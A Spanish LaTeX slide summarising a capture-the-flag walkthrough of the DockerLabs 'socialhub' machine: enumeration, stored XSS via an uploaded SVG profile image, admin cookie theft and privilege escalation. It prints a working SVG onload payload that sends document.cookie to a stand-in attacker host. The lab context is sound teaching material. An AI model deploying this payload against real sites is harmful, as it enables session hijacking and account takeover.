 \documentclass[aspectratio=169,10pt]{beamer}
\begin{document}
\begin{frame}[allowframebreaks]{Ejercicio --- socialhub (DockerLabs)}
\small
  \begin{itemize}
  \item Vulnerabilidades Web / XSS
  \item La máquina
  \item Red social con un 'feed' y un usuario admin; permite subir
  \item una foto de perfil $\rightarrow$ oportunidad de XSS almacenado (SVG).
  \item 1) Enumeración
  \item nmap -p- -sCV \textless{}ip\textgreater{} $\rightarrow$ servicio web
  \item Descubrir el directorio /feed y al usuario admin.
  \item 2) XSS vía SVG $\rightarrow$ robo de la cookie del admin
  \item \textless{}svg xmlns=\textquotedbl{}http://www.w3.org/2000/svg\textquotedbl{}
  \item onload=\textquotedbl{}fetch('//atk/?c='+document.cookie)\textquotedbl{}\textgreater{}\textless{}/svg\textgreater{}
  \item Subirlo como foto de perfil $\rightarrow$ el admin lo abre $\rightarrow$ su cookie
  \item de sesión llega al atacante $\rightarrow$ reutilizarla (Burp) = sesión admin.
  \item 3) Acceso y escalada
  \item SSH como 'hijacking' $\rightarrow$ sudo -l $\cdot$ find / -perm -4000 $\rightarrow$ root
  \item github.com/Kevon99/CTF-Solutions --- socialhub (DockerLabs)
  \item Subir evil.svg
  \item (acepta 'imágenes')
  \item La víctima/admin lo abre
  \item $\rightarrow$ ejecuta el JS
  \item Roba document.cookie
  \item $\rightarrow$ sesión al atacante
  \item Stored XSS $\rightarrow$ Session Hijacking
  \end{itemize}
\end{frame}
\end{document}
